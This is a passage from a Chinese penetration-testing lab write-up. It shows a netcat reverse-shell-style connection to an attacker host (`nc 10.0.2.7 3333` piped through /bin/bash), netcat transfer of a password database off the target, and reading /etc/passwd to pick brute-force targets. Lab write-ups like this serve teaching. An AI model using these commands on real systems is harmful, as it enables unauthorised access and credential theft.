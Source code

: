 第一条命令在3333号端口接收攻击者的命令如 `ls id...`

```bash
nc 10.0.2.7 3333
```
后链接到 `/bin/bash` 进行解析第一条命令所接收的命令 `ls id ...`

最后一条命令将命令解析结果从 4444 端口输送给攻击者,完成了类似与反弹shell的效果

<font color="red" face=Monaco size=3> 运行之后成功获得Shell</font>

![20220430_2119.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/184a2a26e8490324750101ae07c9a0cb.png)


## 密码爆破

查看当前目录的文件,发现有一个 `database.sql` 文件,使用 `file` 命令 查看一下文件格式,发现该文件为 SQLite 数据库文件,结合前面网站的报错,这时我们就有理由怀疑,服务端数据库可能就是使用 SQLite 数据库 

<font color="red" face=Monaco size=3> SQLite 是一个本地的数据库,而它的内容是以一个数据库文件的形式来存储在服务器的某个目录下,所以这个文件很有可能就是数据库里的内容</font>

![20220430_2132.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/fee6f9b5b9a9ef850f9da3688681b835.png)


我们在目标靶机上执行 sqlite 命令 发现并没有任何反应,这说明在目标靶机上可能并没有 sqlite 命令

![20220430_2142.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/90c6e57c78b8b8edcf0f7d47167cc91f.png)

这时我们可以想办法将这个文件上传到攻击机上,使用 kali 里的 sqlite 命令进行查看

这边还是使用 nc 命令进行文件的传输

![20220430_2149.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/4ad2bd91ea9c2b3e1de669b5ac8d9a02.png)

在攻击机中我们运行 `sqlite3` 命令

<font color="green" face=Monaco size=3>基本sqlite 命令</font>
```bash
# 导入对应的数据库文件
.open db.sql
# 查看所导入的数据库文件
.database
# 查看数据库文件内的内容
.dump
```

![20220430_2158.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/5b40eb10f4ebb840a90a9980f07d13b6.png)

查看该数据库文件发现是关于密码相关的数据库插入语句,这时候我们就应该想是否靶机上有账号的密码就在这些密码里面


所以我们可以进一步查看一下 系统中 passwd 文件来发现靶机中有哪些账号,从而进行密码的暴力破解

![20220430_2159.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/7f7b3a068bc99bef342dc9281b971624.png)
发现该文件中有好多没有登入权限和系统用户,而一般这些用户并没有什么用,如果加入到我们要暴力破解的字典里的话，还会影响我们破解的效率

故我们使用 `cat /etc/passwd | grep /bin/bash` 来筛选出有登入shell的用户
